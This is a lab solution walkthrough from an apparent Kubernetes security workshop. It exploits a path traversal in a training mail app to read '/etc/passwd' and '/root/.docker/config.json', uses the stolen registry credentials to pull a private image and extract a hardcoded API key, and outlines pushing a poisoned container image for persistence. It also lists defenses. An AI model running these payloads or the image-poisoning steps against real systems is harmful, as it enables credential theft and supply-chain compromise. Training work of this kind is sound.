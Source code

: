 # Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.planetkesten.com`

* Login to the application using `username: bob` and `password: bobmailbox`

![](images/app-login.png)

* We can see that `README.md` discloses information regarding the private registry

![](images/information-disclosure.png)


* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`

![](images/path-traversal-exploitation.png)

* Similarly we can read other sensitive files in the system and find that the system contains `/root/.docker/config.json` with payload `qqqqq/../../root/.docker/config.json`

![](images/docker-config.png)

* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```

![](images/docker-registry-login.png)

* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```

![](images/pull-private-image.png)

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```

![](images/source-code-hardcoded-key.png)

* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image


## (Optional) Now lets gain persistence and spread through the company. 

The ability to push to arbitrary repositories
is a company ending event. It bypasses all the gating checks between environments and offers complete 
lateral movement. It offers the attacker the chance to hop from dev to production, or datacenter to cloud.

Let's rebuild the container. Inspecting the image using the `docker history` command
shows information about the layers much like `git history`. The dfimage container leverages
layer metadata to build a nice Dockerfile. If it fails, fall back to `docker history`.

```
alias dfimage="docker run -v /var/run/docker.sock:/var/run/docker.sock --rm alpine/dfimage"
dfimage -sV=1.36 kbroughton/k8s-workshop-mailbox-service
```

Any "COPY" or "ADD" commands will need to be recovered from directories in the container.
"ENV" and "LABEL" with spaces between items may need to be quoted. Expect other manual touch-ups.

Copy the output into a Dockerfile. We will modify it, tag it and push to the new container to the repo.
Any manifests which use the "latest" tag will easily pick this up. If not, but we know the existing tag,
then we can likely over-write the tag. Artifactory has a no-overwrite setting but it is disabled by default.

From within the container, the container code would need to be exfiltrated or modified insitue.
From the node, with the running container
```
docker cp $CONTAINER_ID:/path node_path
```

The best target for embedding malicious content would be 3rd party libraries with typo-squatted names
or portions of the container codebase which are complex or had undergone recent overhauls.

The major defenses are:

* Binary authorization / Notary Services so that only a few dedicated build machines can sign container manifests
and only signed containers can run on production nodes.
* Separate repos for development and production. Many devs can push to a wild-west container repo, but only strictly
gated service accounts can publish to production repositories.

The same impact and defenses apply to the ability to write to source repositories. The most difficult things to
secure are common utility repos which many teams may need to update.

* An alternative coming soon... kubectl debug

Released in kubectl v1.8 in beta, you can latch onto a running pod but with elevated tools and privileges
of a debug container speficied in the `--image` section in the command below.

```
kubectl alpha debug -it mailbox-service-74c9949944-rn5k4 --image alpine --target mailbox-service-74c9949944-rn5k4
```

## Instructor Notes

[Custom Kind with ephemeral containers](https://medium.com/01001101/ephemeral-containers-the-future-of-kubernetes-workload-debugging-c5b7ded3019f)

